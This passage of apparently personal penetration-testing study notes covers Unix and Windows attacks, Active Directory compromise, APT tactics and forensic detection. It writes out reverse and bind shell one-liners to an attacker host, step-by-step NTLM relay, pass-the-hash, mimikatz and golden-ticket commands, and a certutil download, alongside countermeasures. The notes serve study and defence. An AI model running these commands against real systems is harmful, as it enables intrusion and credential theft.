                 - Authorization
                 - Never add localhost in the list of allowed to mount systems, dangerous
                 - Export "safe" directories
             - BIND
               - Buffer overflows
               - DNS cache poisoning
               - Countermeasures
                 - Disable
                 - Patch
                 - Run as unprivileged user
                 - Run in a jailed environment
             - X insecurities
               - Can capture keystrokes
               - Can send keystrokes
               - Capture windows
               - Tools
                 - `xscan`: scan a net for an open X server
                 - `xwatchwin`: see the windows users have opened
               - Countermeasures
                 - Avoid using this
             - SSH
               - Vulnerabilities, buffer overflows
               - Example: [heartbleed](https://heartbleed.com/) (OpenSSL)
               - Countermeasures: update
             - Apache
               - Vulnerabilities, buffer overflows
               - Check for misconfigurations and public directories
               - Countermeasures: update
             - ...
       - Using a mirror inside the net: route through unix system
         - Source routing: sender can specify the route the packet should take through the network (bypass firewall)
       - User-initiated remote execution: trick a user executing code, surfing to a website or launching malicious e-mail attachments
         - Goal: remote command execution (RCE)
           - Back channel: get the machine open a connection to you
             - How
               - Attacker `nc -lvnp 80`
               - Victim: `telnet <attacker-addr> <attacker-port-input> | sh | telnet <attacker-addr> <attacker-port-output>`
             - Countermeasuers
               - Firewall
               - Remove permissions to possibly dangerous files
               - ...
       - Promiscuous-mode attacks: sniffing packets/packet injection
         - Eavesdropping traffic
         - Exploit softwares listening for packets, handcraft malicious packet
  2. Privilege escalation/local access
     - Weak passwords
       - `/etc/passwd` format

          

       - `/etc/shadow` format

         

         - Salt used to avoid that same passwords have the same hash and usage of rainbow tables
       - Cracking tools
         - John the ripper
           - `john --wordlist=<dictionary> <password-file>`
         - Hashcat (faster if you have a GPU)
       - Countermeasures
         - Longer, stronger passwords
         - Regex to check for long repetitions
         - "Audit" your passwords
         - When a user registers its password is checked with a long list, if it exists is bad
         - Use passphrase
     - Symlink: symbolic link from one file to another
       - Can be exploited to trick a program into referencing other files during executions
       - Creating symlinks to protected files is permitted to everybody
     - Race conditions
       - Many programs elevate privileges only temporarily, an attacker exploiting a program in this window of time wins the race
       - Signal-handling race conditions
         - Attackers can exploit signals to halt processes while they have elevated privileges, or in general try to alter the program flow to make it easier to exploit
     - Core file manipulation
       - Core files are a dump of the address space of a process when it exits unexpectedly
       - Can expose informations to attackers (ex: if the program access `/etc/shadow` and then crashes the core file could contain hashes)
       - Countermeasures
         - If don't needed, disable
         - Configure programs to generate core dumps with certain permissions
     - Shared libraries
       - DLL in windows
       - An attacker could inject altered library to execute arbitrary code on the system
       - [Where does the system look for shared libraries](https://linux.die.net/man/1/ld)

         

       - Countermeasures
         - Use -rpath when linking whenever possible
         - Make sure LD_RUN_PATH, LD_LIBRARY_PATH, RUNPATH don't include directories with weak permission settings
     - Kernel flaws
     - SUID bit
       - When a file with SUID is executed, the process assumes the effective user ID of the owner of the file
       - Executing a SUID file owned by root spawns aprocess with EUID 0 (root)
       - Exploiting
         - Poorly coded SUID programs (buffer overflows)
         - Many SUID programs create temp files, stored in `/tmp`
           - Using symlinks this could be interesting
       - Countermeasures
         - Remove SUID bit wherever possible
         - Use nosuid option of mount: when you mount you force to disable SUID binaries
         - Use capabilities instead of SUID, that gives just a subsection of capabilities
           - Bad capabilities can be exploited
     - Capabilities
     - World-Writable Files
       - Find them: `find / -not -type l -not -path "/proc/*" -perm -o+w 2> /dev/null`
       - Countermeasures
         - Do not user world-writable files
         - Never leave startup scripts as world writable
     - Sensitive utilities
       - `sudo -l`: list all allowed commands to be run as sudo
       - `cat /etc/crontab`: list scheduled jobs
  3. Persistence
     - Trojans: malware hidden in otherwise normal files
       - Once an attacker has root, he can attach a trojan to any file/program in the system (ex: ssh that stores username/passwords typed by users)
       - Trojans can easily open backdoors that allowing remote connections or to circumvent firewall restrictions, reverse connections from the target to the attacker’s machine...
       - Countermeasures
         - Hash of the binary is the best way to verify the legitimacy
           - Requires the creation of a database of hashes
     - Sniffers
       - Sniffers allow attackers to "sniff" all network traffic that goes through the same local network segment (also WiFi)
       - Attackers can get a good understanding of potential target services, while remaining completely passive
       - If traffic is not properly secured, attackers can also obtain critical information such as passwords and confidential documents
       - Countermeasures
         - Always use network-level encryption
     - Log cleaning
       - System logs contain information regarding all activities going on in the system including the activity of the attacker
       - Log cleaners allow attackers to delete their traces from your system
       - Log cleaners can also intercept programs that send log files to remote servers
     - Kernel Rootkits: allow attackers to compromise all system programs, without modifying any of them
       - Approaches
         - Modifying system call table, redirecting calls to custom routines
           - Easily detectable through integrity check
         - Corrupt system call handler, to point to attacker's system call table, stealthier
         - Hack interrupt descriptor table or interrupt handler
       - Countermeasure: just prevention

#### Practical

- Shells
  - Tool: `netcat`
  - Methods
  	- Bind shell: attacker connects to the victim
  		1. Victim machine: fire up a listener `nc -nlvp <listening-port> -e /bin/sh`
  		2. Attacker machine: connect to the victim `nc <victim-ip> <attacker-machine-listening-port>`
  	- Reverse shell: victim connect to the attacker
  		1. Attacker machine: fire up a listener `nc -nvlp <listening-port>`
  		2. Victim machine: launch reverse shell `nc <attacker-machine> <attacker-machine-listening-port> -e /bin/sh`
- Binary exploitation and exploit writing
  - https://dev.to/hextrace/use-pwntools-for-your-exploits-40m3
  - https://tc.gts3.org/cs6265/2019/tut/tut01-warmup1.html

### Hacking windows

- Attack types
  - Unauthenticated attack: use remote network exploits
    - Authentication spoofing: brute-force/dictionary password guessing and man-in-the-middle
      - Remote password guessing
        - Targets
          - Server Message Block (SMB)
          - Microsoft Remote Procedure Call (MSRPC)
          - Terminal services
          - SQL
          - SharePoint and web services
          - ...
        - Notes
          - Account may lock out after too many guesses
        - Tools
          - `THC Hydra`
          - `Medusa`
          - ...
        - Countermeasures: applied through local security policy menu
          - Use a firewall (local or dedicated)
          - Use strong passwords
          - Set a lockout threshold
          - Enable audit account logging 
          - Do not use default ports
          - Use IDS/IPS
      - Eavesdropping on network password exchange
        - Tools
          - Cain and LCP (windows) 
            - LAN manager (LM) passwords are very likely affected but very old
            - Kerberos sniffing: used a preauth packet which contained a timestamp encrypted with a key derived from the user's password
              - Cracking
          - Wireshark (linux)
            - Intercept clear-text passwords or crackable hashes
          - John the ripper and hashcat
            - Crack intercepted hashes
        - Countermeasures
          - Use NTLM than LM
          - Use strong passwords
          - Encrypt traffic
      - Man-in-the-middle attack: the attacker is between the victim and the server
        - SMBrelay and SMBproxy attacks: pass authentication hashes to get authenticated access to the server
          - Credential reflection: act as the server and pwn the client machine (maybe)
          - Credential forwarding: access the server with credentials received by the client
        - Tools
          - Wireshark
          - Cain
        - Countermeasures
          - Use encryption
      - Pass-the-hash: use hash instead of password to authenticate
        - Dumping hashes in memory or sniffing for hashes
          - In NTLM decryption keys are in RAM 
      - Pass-the-ticket: exploiting kerberos vulnerabilities/misconfigurations
    - Remote unauthenticated exploits
      - Network services: exploit vulnerable services
      - Client software vulnerabilities
      - Countermeasures
        - Patch
        - Use a firewall
        - Email antivirus, read emails in plaintext
        - Disable macros in Office
        - Run with least privileges
    - Device drivers vulnerabilities
      - Could lead to huge problems because those drivers are executed in high privilege kernel mode
      - Types: mouse, wireless card (VERY BAD), ethernet card...
      - Countermeasures
        - Apply vendor patches
        - Disable wifi in high-risk environments
        - Use driver signing (check if the device has trusted drivers)
        - User-mode driver framework: provide an API through which the driver could be developed (so safer and easier); so drivers work in user mode calling functions in kernel mode but not executing their code in the kernel
  - Authenticated attack: attacker has an account in the target machine
    - Privilege escalation: once attackers have obtained a user account on a Windows system, they will set their eyes immediately on obtaining Administrator, or SYSTEM, equivalent privileges
      - Admin in Windows is not the high privileged account, `NT AUTHORITY\SYSTEM` is
      - Countermeasures
        - Update machines
        - Restrict interactive logon to trusted accounts using local security policies
    - Extracting and cracking passwords
      - Grabbing password hashes
         - Windows hashes are
           - Local users: inside Windows Security Account Manager (`SAM`, file)
             - Path: `%systemroot%\system32\config\SAM`, `HKEY_LOCAL_MACHINE\ SAM`
               - Now password hashes can not be read while the system is running
                 - There are several ways to bypass this protection, for example using a live USB
           - Domain account: inside Active directory domain controllers (always `SAM`)
             - `%windir%\WindowsDS\ntds.dit`
         - Linux hashes are in `/etc/shadow`
      - Cracking passwords
         - Dictionary attack with standard dictionarty or rainbow tables
         - To hash passwords is better to use a slow hasing algorithm (to avoid attacks)
           - Sometimes hash algorithms are used more than one time to hash passwords
         - In Windows NTML hashes are used (in the past LM were used but they were weak)
         - Tools: `hashcat`, `johntheripper`
        - Method: dictionary attack
          - Get a dictionary and compute hashes (create a rainbow table) then do a linear search for the hash to crack
            - Countermeasure
              - Salt: random bytes (2) added to the cleartext password
                - Used because without it if two users choose the same password their hash would be the same
                - How to know the salt for authentication?
                  - They are add to the password hash file (in clear text, in linux `/etc/shadow`, in Windows `SAM`)
          - Get a dictionary and compute hashes (append to dictionary words all possible salts, `2^16`) then do a linear search for the hash to crack
          - Get a dictionary and compute hashes and compare each one with the hash to crack
        - Method: brute force; tries all possible combination of characters (if the password is long is useless)
         - Countermeasures
           - Strong password
           - Use strange chars
      - Dumping cached passwords
        - In Windows Local Security Authority (LSA) secrets
          - Contains
            - Unencrypted logon credentials for this machine
            - Cached password hashes of the last ten users to log on to a machine: `HKLM\SECURITY\CACHE\NL$n` where `n` represents a numeric value from 1 to 10 correspondingto the last ten cached logons (probably no more used)
            - FTP and web-user plaintext passwords
            - Computer account passwords for domain access
          - Registry key: `HKLM\SECURITY\Policy\Secrets` (probably no more used)
      - Dumping hashes/cleartext password stored in RAM
        - You get only current logged in users or recently logged out users
        - Need admin (or system) privileges to read passwords in memory
        - No countermeasure because this is a Windows feature
    - Remote control and backdoors
      - Backdoor: service enabling not authenticated remote control
      - Remote control tools
        - CLI remote control tools
          - Netcat
            - Listener (Windows, shell, not reverse shell): `nc -L -d -e cmd.exe -p 8080`
              - `-L`: persistent, doesn't die if the connection is closed
              - `-e`: program to launch
              - `-d`: stealth mode (no interactive console)
              - `-p`: port
            - To connect to the listener: `telnet $IPTARGET 8080` or `no $IPTARGET 8080`
          - PsExec: windows internal command to interact with `TCP 139 or 445`; if you know username and password is useful to spawn a shell
        - GUI remote control tools
          - Remote desktop (port `3389`), not on by default, authenticated
          - VNC
        - Metasploit has a lot of payloads doing this
      - Port redirection  
        - Using a redirector (port) inside the target net to reach the target even if the target is behind a firewall

          
          
          - The redirector is a machine already compromised or maliciously implanted
        - Tool
          - Windows: `fpipe` (TCP source port forwarder/redirector)
            - `fpipe -v -l 53 -r 23 $TARGETIP`: listen on `53` and forward to `$TARGETIP:23`
          - Linux: `socat`
      - Covering tracks
        - Temporarily disabling auditing (logging of actions)
        - Clearing event log
        - Hiding files
          - Simply hide files (basic windows function)
          - Alternate data stream: used NTFS filesystem to hide a file within another file
            - `cp $FILE $DESTFILE:$FILE` and the contrary
            - `start $DESTFILE:$FILE`
            - `type $DESTFILE:$FILE` doesn't work
        - Rootkits

          

          - Types
            - Persistent
            - Memory-based: if the system is rebooted they die
            - User mode: intercept syscalls and alter the behavior
            - Kernel mode: intercept syscalls and alter the behavior with highe privileges
          - Using this type of malware the attacker will be invisible (it works in kernel mode)
    - General countermeasure: full reinstall
      - Else cover four areas
        - Files
          - Dangerous filenames
          - Placed in startup menu
          - Modified files (checksum): check file hashes with the ones of a clean image of the system
        - Registry keys
          - Suspicious names
          - Autostart extensibility point (ASEPs): attackers almost always place necessary Registry values under the standard Windows startup keys; check these areas regularly for the presence of malicious or strange-looking command
        - Processes
          - Suspicious names
          - High CPU utilization
          - Check scheduler
        - Network ports
          - `netstat -aon`
            - `a`: all
            - `o`: process name listening
            - `n`: want port in numerical form
  - Windows security features: OS countermeasures and best practices
    - Windows firewall
      - Enabled by default, only outbound connections are allowed
    - Automated updates
    - Windows security center
    - Security Policy and Group Policy: policies to define security bounds
      - Group policy: just like security policy but applied to users groups
    - Microsoft security essentials (now Windows defender)
    - The Enhanced Mitigation Experience Toolkit (EMET)
      - Allow user to configure DEP (Data execution prevention) and ASLR (Address space layout randomization)
        - DEP: set memory pages as not executable
        - ASLR: randomize at every run addresses in which a program runs
    - Encrypting File System (EFS): encrypts user files
      - Files are encrypted; decrypted only when opened
      - Every user has its own key (unlocked through his password) that is kept in memory during the user's session to decrypt files
      - There is also a recovery agent; the key to decrypt files is also stored encrypted using another key, the one of the recovery agent
    - Bitlocker: encrypt the whole disk
      - Defeatable using coldboot attack: cold the ram so that information is mantained here for longer times; then dump the ram content and read cleartext content
        - Countermeasure: save keys in external drives
    - Windows resource protection (WRP): ensure that critical files/registry of the system aren't modified
    - Integrity levels, UAC and PMIE: for example, actions that require administrative privilege would require a further authorization beyond that associated with the standard user context access token; Microsoft termed this new architecture extension Mandatory Integrity Control(MIC)
    - Windows service hardening
      - Service resource isolation: a process can't write in the memory of another
      - Least privilege services: through Service Control Manager (SCM) services are now capable of providing the SCM with a list of specific privileges that they require (of course, they cannot request permissions that are not originally possessed by the principal to which they are configured to start); upon starting the service the SCM strips all privileges from the services' process that are not explicitly requested
      - Service refactoring: give a process the lowest level of privileges possible
      - Restricted network access: more rules to set network application "permissions"
      - Session 0 isolation: isolate session `0` (privileged), so other sessions can not interact with it
    - Compiler based enhancements: to mitigate buffer overflows and memory corruption
      - ASLR
      - Canary
      - ... 
  - Active directory: windows directory service
    - Uses kerberos, mimikatz when the user owned has an impersonate privilege set
    - In the active directory data store server under `%SystemRoot%\NTDS` a file called `Ntds.dit` is stored, it contains all domain passwords
    - Gaining access
      - LLMNR poisoning: used to identify hosts when DNS fails to do so
        - Explanation

          

        - Tool: https://github.com/lgandx/Responder
        - How to
          1. Run the fake server: `./Responder.py -I eth0 -rdwv` (see tool repo or help for more)
          2. Let the victim connect
          3. Get user hash
          4. Crack using hashcat: `hashcat -m 5600 <hash-file> <wordlist>`
      - SMB relay: use hashes found with LLMNR poisoning without cracking them
        - Prerequisites
          - SMB signing must be disabled on the target for this attack to work
          - User who's credentials are being relayed should be an admin on both the machines
        - How to: get hashes
          1. Find the hosts in the networks that has SMB signing disabled and save them in a file: `nmap --script=smb2-security-mode.nse -p445 <net-id>/24`
              ```
              # Result wanted
              Host script results: 
              | smb2-security-mode:  
              |   2.02:  
              |_    Message signing enabled but not required 
              ```
          2. Configure fake server: in `Responder.conf` `SMB` and `HTTP` must be `off`  
          3. Run the fake server: `./Responder.py -I eth0 -rdwv` (see tool repo or help for more)
          4. Run the service that will relay victim hashes to the server that has SMB signing disabled: `ntlmrelayx.py -tf <file-with-ip> -smb2support`
             - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
          5. Let the victim connect
          6. Collect SAM hashes and crack them
        - How to: get SMB shell
          1. Point 1 and 2 same as before
          2. Run the service that will relay victim hashes to the server that has SMB signing disabled: `ntlmrelayx.py -tf <file-with-ip> -smb2support -i`
             - Here we added `-i` for interactive shell
          3. Let the victim connect
          4. This will spawn a SMB shell on `127.0.0.0` on a port print by the script, connect to it using `netcat`
        - How to: get normal shell (metasploit)
          1. `use exploit/windows/smb/psexec`
          2. `show options`
          3. Set `rhosts, smbdomain, smbpass, smbuser, lhost`
          4. `set payload windows/meterpreter/reverse_tcp`
        - How to: get normal shell (`psexec.py`)
          - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
          - `psexec.py <domain-server>/<username>:<password>@<host>` 
      - IPv6 DNS Takeover via Mitm6: impersonate DNS server to make the user "authenticate" to you and then use its credentials to create a persistent user account on its machine
        - Explanation: https://www.fox-it.com/nl/actueel/blog/mitm6-compromising-ipv4-networks-via-ipv6/
        - Tool: https://github.com/fox-it/mitm6
        - How to
          1. MITM IPv6: `mitm6 -d <domain-controller>`
          2. `ntlmrelayx.py -6 -t ldaps://<target> -wh <fakewpadaddress> -l <loot-folder>`
          3. Wait for DNS requests
          4. `ntlmrelayx.py` should output privileged users created
    - Post-compromise
      - Enumeration
        - Tool: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 or in general https://github.com/PowerShellMafia/PowerSploit
        - How to
          1. Run `powerview`
          2. Getting Domain Details: `Get-NetDomain`
          3. Get Domain Controller Information: `Get-NetDomainController`
          4. Get Domain Policy Details: `Get-DomainPolicy`
          5. Get Domain Password Policy : `(Get -Domain Policy)."system access"`
          6. Get details of Users: `Get-NetUser`
          7. Get specific user related details: `Get-UserProperty`
             - Example: `Get-UserProperty -properties pwdlastset`
          8. Get list of computers: `Get-Netcomputer`
          9. Get list of computers in detail: `Get-Netcomputer -full-data`
          10. Get Domain Group Information: `Get-NetGroup`
              - Example: `Get-NetGroup -GroupName *admin*`  
          11. Find the list of users in a group: `Get-NetGroupmember -GroupName "Domain Admins"`
          12. Get list of Shared Folders: `Invoke-ShareFinder`
          13. Get Group Policy: `Get-NetGPO`
              - Example: `Get-NetGPO | select displayname, whenchanged`
        - Powerview cheatsheet

          

          

      - Attacks
        - Pass the password/hash
          - Tools
            - Crackmapexec: https://github.com/byt3bl33d3r/CrackMapExec
            - psexec: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
            - secretsdump: https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
          - Authentication using user + password in `crackmapexec`: `crackmapexec <ip/CIDR> -u <user> -d <domain> -p <pass>`
          - Authentication using user + hash in `crackmapexec`: `crackmapexec <ip/CIDR> -u <user> -H <hash> --local`
            - Only works with NTLM hashes, not NTLMv2
            - Example hash: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:<HASH-TO-USE>:::`
          - Grabbing hashes using metasploit
            - Module: `windows/smb/psexec` to access
            - `meterpreter > hashdump`
          - Shell using `psexec`: `psexec.py <domain>/<user>:<password>@<ip-remote>`
          - Grabbing hashes using `secretsdump`: `secretsdump.py <domain>/<user>:<password>@<ip-remote>`
          - Cracking hashes using hashcat: `hashcat -m 1000 <hash-file> <wordlist> --force --show`
        - Token impersonation
          - Tokens: temporary keys that allow you access to a system/network without having to provide credentials each time you access a file; think cookies for computers
            - Delegate: created for logging into a machine or using Remote Desktop
            - Impersonate: "non-interactive" such as attaching a network drive or a domain logon script 
          - Attack
            - In an open meterpreter session
              1. `load incognito`
              2. `list_tokens -u`
              3. `impersonate_token <an-available-token>`
        - Kerberoasting
          - Explanation: under Kerberos, a client (generally either a user or a service) sends a request for a ticket to the Key Distribution Center (KDC). The KDC creates a ticket-granting ticket (TGT) for the client, encrypts it using the client's password as the key, and sends the encrypted TGT back to the client. The client then attempts to decrypt the TGT, using its password. If the client successfully decrypts the TGT (i.e., if the client gave the correct password), it keeps the decrypted TGT, which indicates proof of the client's identity. The TGT, which expires at a specified time, permits the client to obtain additional tickets, which give permission for specific services. The requesting and granting of these additional tickets is user-transparent.
          - Goal Of Kerberoasting: get TGS and decrypt servers account hash
          - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
          - Attack
            1. Get SPNs, Dump Hash: `python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip-of-DC> -request`
            2. Crack the hash using hashcat
        - Group Policy Preferences Attack also known as MS14-025
          - Explanation: Group Policy Preferences allowed admins to create policies using embedded credentials, these credentials were encrypted and placed in a "cPassword"; the key was accidentally released
          - Attack
            - Manual
              - The file with the encrypted password (and the username) is under `SYSVOL` (everyone can access it) in a file somewhere called `Groups.xml`
              - Use `gpp-decrypt` to decrypt it (https://github.com/t0thkr1s/gpp-decrypt)
            - Automated
              - Metasploit `smb_enum_gpp` module
              - Powershell script: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
            - If the user found can't access the machine we could use this attack + kerberoasting to gain access 
        - Mimikatz: https://github.com/gentilkiwi/mimikatz/releases 
          - Explanation: tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks; it dumps credentials stored in memory
          - Useful for: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket
          - Get saved passwords hashes
            - `privilege::debug`
            - `sekurlsa::logonpasswords`: get all the saved passwords (hash) since last reboot
          - Dump password hashes in memory: `lsadump::lsa /patch`
          - Golden Ticket attack
            - `lsadump::lsa /inject /name:krbtgt`
              ```
              // Example output
              Domain : MARVEL / S-1-5-21-4193793478-4101164478-96150210 // NB
              RID  : 000001f6 (502) 
              User : krbtgt 

              * Primary 
                  NTLM : 9f51b795ef306e33f3931ccfb75930ef // NB
                  LM   : 
                Hash NTLM: 9f51b795ef306e33f3931ccfb75930ef 
                  ntlm- 0: 9f51b795ef306e33f3931ccfb75930ef 
                  lm  - 0: 3722dd304d7ec006ab994b924304bae3 
              ```

            - `kerberos::golden /User:<fake-user> /domain:<domain> S-1-5-21-4193793478-4101164478-96150210 /krbtgt:9f51b795ef306e33f3931ccfb75930ef /id:500 /ptt`: for explanation see above
  - File transfer
    - Certutil (like wget for windows): `certutil.exe -urlcache -f http://IP/file.txt file.txt`
    - IWR (like wget for windows): `Invoke-WebRequest -Uri "http://www.test.com" -OutFile "C:\path\file"`
    - HTTP python server: `python -m SimpleHTTPServer 80`
    - FTP python server: `python -m pyftpdlib 21` 
  - Maintaining access
    - Metasploit modules
      - `exploit/windows/local/persistence`
      - `exploit/windows/local/registry_persistence`
      - `scheduleme`
      - `schtaskabuse`
    - Add user: `net user <username> <password> /ADD`
  - Remember to clean up the system after the work!

### Advanced Persistent Threat (APT)

- What is it
  - Advanced: use sophisticated methods (zero day exploits, custom exploits...)
  - Persistent: attacker returns to target system over and over again, has a long-term goal and avoid being detected
    - Exfiltrate data, subtle control...
  - Threat: organized, funded and motivated
- Differences between APT and non-APT
  - Non-APT: smash and grab, like a robbery, a lot of noise and fast interaction
  - APT: exfiltrate large amount of data in long periods, stealthy
- Types
  - Crime: steal information or just make a fraud
  - Espionage (industry or state sponsored): gather intellectual property or trade secrets to gain competitive advantage
    - Gain and mantain access to information
    - Don't destroy systems, don't interrupt normal operations
    - Stay hidden and keep stolen data flowing
    - Often starts from spear phishing
- Hiding
  - If an APT criminal is discovered he wants to cover tracks
  - How
    - Cut outs: computers owned by legitimate organizations that have been pwned by the attacker and are used as a proxy
    - Dropper delivery services: services to distribute exploits and malware in a target organization; like an external agency that is payed to do the dirty work 
- Techniques in general
  - SQL injection to add malware to websites
  - Infected USB sticks drops
  - Infected hardware or software
  - Social engireering
  - Compromised human insiders (less often)
- Phases
  1. Targeting (footprinting): collect info about the target and perform vulnerability scanning, social engineering and spear phishing
  2. Access/compromise: gain access and collect credentials for further compromise, obfuscate intention using malware (like a bait to be more hidden)
  3. Reconnaissance: enumerate networks and systems (before temporarily disable antivirus and logging softwares to avoid being caught)
  4. Lateral movement: move through network to other hosts
  5. Data collection and exfiltration: estabilish connection points and exfiltrate via proxy
     - You could use a hard disk of a printer to exfiltrate data: look in the net and if you find something put those information in the printer, then exfiltrate 
     - If checks are being executed use covert channels
  6. Administration and maintenance: mantain access over time
     - Notification if something in the net (that could cause problems to our backdoor) is changed so that we can keep access also if the system attacked changes
- Detection
  - Email logs: phishing emails detection
  - Lateral movement could leave artifacts from misuse of access credentials or identities, use of malware, exploitation of vulnerabilirties...
  - Exfiltration may leave traces
    - Firewall and IDS logs
    - Data loss prevention logs
    - Application history logs
    - Web server logs
  - Forensics
    - Live file systems (RAM)
    - Hard disk image
- Indicator of compromise (IOC)
  - Malwares wants to survive a reboot, mechanisms:
    - Using various "Run" Registry keys
    - Creating a service
    - Hooking into an existing service
    - Using a scheduled task
    - Disguising communications as valid traffic
    - Overwriting the master boot record
    - Overwriting the system's BIOS
- Forensics analysis
  - Windows
    1. Collect data to analyze
       - Data sources
         - Memory
           - `VMMap`: show virtual/physical memory map, check DLLs strings
           - DNS cache
         - Page and swap file
            - In windows: `pagefile.sys` (virtual memory) and `Hiberfil.sys` (when computer is hibernated)
         - Running processes
           - Process explorer: lookup a process, its DLLs and `cmd.exe` executions
           - Process monitor: lookup process-kernel interactions
         - Network data
           - `netstat`
           - `Currports`: look into a current open port and its DLL
         - System registry/tasks
           - Registry query: `reg query` to check for suspicious registry entries
           - Scheduled tasks: `at` to find scheduled tasks
         - Log files
           - Event logs: `psloglist` to retrieve system and security event logs
           - Prefetch directory: last 128 unique programs executed
           - Antivirus logs
         - Important files
           - Master file table: contains timestamp of modifications of the filesystem
           - `hosts` file
           - `ntuser.dat`: user profile
           - `index.dat`: requested urls
           - `.rdp` files: remote desktop session info
           - `.bmc`: bit map to clients (find attacker's access to applications, files, network, credentials)
         - Backups and forensics images
           - Check if System32 directory has been changed
             - Interesting files: `.dll, .bat, .rar, .txt`
       - Dump memory using `FTK Imager`
    2. Analyze results gained
       - Analyze memory images using `Volatility`
         - Volatility cheatsheets: **STUDY THEM**
           - https://github.com/The-Art-of-Hacking/h4cker/blob/master/cheat_sheets/volatility-memory-forensics-cheat-sheet.pdf
           - https://book.hacktricks.xyz/forensics/volatility-examples
           - [Pdf](./res/pdf/volatility_cheatsheet.pdf)
         - [Autopsy](https://www.autopsy.com/): GUI to volatility and other forensics tools
         - Elements to analyze
           - Processes
           - Network connections
           - DLLs from suspicious processes  
           - (More or less what listed above)
  - Linux
    - Block access to the machine to work in peace
    - Check logs for `sudo su -` commands
    - Check added/modified files recently
    - Check listening ports with `netstat` and `lsof`
      - `netstat -anlp`
      - `lsof -i -P`: show all listening services associated to a process
    - Check for hidden files (`.. `, `. `), drive slack space, `/dev`, `/tmp`, `/var/tmp`
    - Check `.bash_history` (or the shell history in general) file (history of commands executed by each user placed in each user's home directory)
    - Check requests done to exposed services and new files downloaded/imported in the machine
    - Check for ram drives
      - `/dev/shm` is the default
      - `mkdir -p /tmp/ram` -> `sudo mount -t ramfs -o size=512M ramfs /tmp/ram` to create an alternative ram drive, suspicious
      - `df -a`: list ram drives
    - `strings` to analyze suspicious executables
  - Windows
    1. Check `%temp%` (`c:\documents and settings\<user>\local settings\temp`) for `.exe, .bat,.*z*` files
    2. Check `%application data%` (`c:\documents andsettings\<user>\application data`) for `.exe,.bat, .*z*` files
    3. Check `%system%` (`c:\windows\system32`) for `.dll, .sys, and .exe` files not in the installation (`i386/winsxs/dllcache`) directory or with adifferent date/size
    4. Check `%system%` (`c:\windows\system32`) for `.dll, .sys, and .exe` files with anomalous created dates
    5. Check `c:\windows\system32\etc\drivers\hostsfile` for sizes greater than `734 bytes` (standard)
    6. Check `c:\` for `.exe and .*z*` files
    7. Search for `.rdp` (connected from) and `.bmc` (connected to) history files by date/userprofile
    8. Search for `*.lnk and *.pf` files by date/userprofile
    9. Search `c:\Recycler\` folders for `*.exe, *.bat,*.dll, etc.`
    10. Compare results to network activities by date/time
    11. Grep out FQDN and IP to a file
    12. Compare results to blacklist or lookup anomalies
    13. Check for any keys with `%temp%` or `%application data%` paths
    14. Check for anomalous keys in `%system%` or `%program files%` paths
    15. Check for ESTABLISHED or LISTENING connections to external IPs
    16. Document PIDs to compare to tasklist results
    17. Search for PID from netstat output and check for anomalous service names
    18. Check for anomalous `*.exe and *.dll` files
    19. Check for anomalous scheduled jobs
    20. Check anomalous jobs for path and `*.exe`
    21. Check for anomalous service names
    22. Check for anomalous service DLL paths or mismatched service names
- General APT attack method 
  1. A spear-phishing e-mail is delivered to address(es) in the organization
  2. A user opens the e-mail and clicks a link that opens the web browser or another application, such as Adobe Reader, Microsoft Word, Microsoft Excel, or Outlook Calendar. The link is redirected to a hidden address, with a base64-encoding key
  3. The hidden address refers to a "dropsite" which assesses the browser agent type for known vulnerabilities and returns a Trojan downloader. The Trojan downloader is usually temporarily located in `c:\documents and settings\<user>\local settings\temp` and automatically executes
  4. Upon execution, the downloader conveys a base64-encoded instruction to a different dropsite from which a Trojan dropper is delivered. The Trojan dropper is used to installa Trojan backdoor that is either:
     - Packaged into the dropper and then deletes itself, and the Trojan backdoor begins beaconing out to the C&C server programmed into its binary
     - Requested from a dropsite (can be thesame), according to system configurationdetails that the dropper communicates to the dropsite. Then the dropper deletes itself and the Trojan backdoor begins beaconing out to the C&C server programmed into its binary
  5. The Trojan dropper usually installs the Trojan backdoor to `c:\windows\system32` and registers the DLL or EXE in the `HKLM\System\<Controlset>\Services` portion of the registry
  6. The Trojan backdoor typically uses a filename that is similar to, but slightly different from, Windows filenames
  7. The Trojan backdoor uses SSL encryption for communications with its C&C server via a cut out or proxy server that routes the communications according to base64 instructions or passwords in the communication header. Often several proxies are used in transit to mask the path to the actual C&C server. The beacon is usually periodic, such as every five minutes or hours
  8. The attacker interacts with the Trojan backdoor via the proxy network, or occasionally directly from a C&C server. Communications are usually SSL encrypted, even if using non standard ports
  9. The attacker typically begins with Computer name and User accounts listings to gain an understanding of the naming conventions used and then uses a pass-the-hash or security dump tool to harvest local and active directory account information
  10. The attacker often uses service privilege escalation for initial reconnaissance to gainl ateral movement in the network
  11. The attacker cracks the passwords offline and uses the credentials to perform reconnaissance of the compromised network via the Trojan backdoor, including network scans, shares, and services enumerations. This helps the attacker determine lateral access availability
  12. Once the lateral access across the network is determined, the attacker reverts to Windows administrative utilities such as MSTSC (RDP), SC, NET commands, and so on. If lateral access is impeded by network segmentation, the attacker often employs NAT proxy utilities
  13. When network lateral movement andr econnaissance activities have been completed, the attacker moves to a second stage and installs additional backdoor Trojans and reverse proxy utilities to enable more direct access and establish egress points
  14. The egress points are used to collect and steal targeted proprietary information, usually in encrypted ZIP or RAR packages, often renamed as GIF files 

### Remote connectivity and VoIP hacking

**Note**: this section is not deeply explained, for more information see the book (page `930`)
- Dial-up hacking
  - Companies still use dial-up connections (old servers, SCADA, ICS...)
  - This practice follow the same methodology defined above (fingerprinting, scanning, enumeration...)
  - Automated tools: `wardialer, demo dialer`
  - Phases
    1. Phone numbers footprinting
       - Search for phone numbers
         - Sources: phone directories, target websites, internet name registration database...
    2. Wardialing: attacking, "calling" a lot of numbers
       - Hardware: modems, more modems and the more powerful they are the faster you are
       - Software (automation): `WarVOX, TeleSweep, PhoneSweep` 
         - Bruteforce
           - Cases
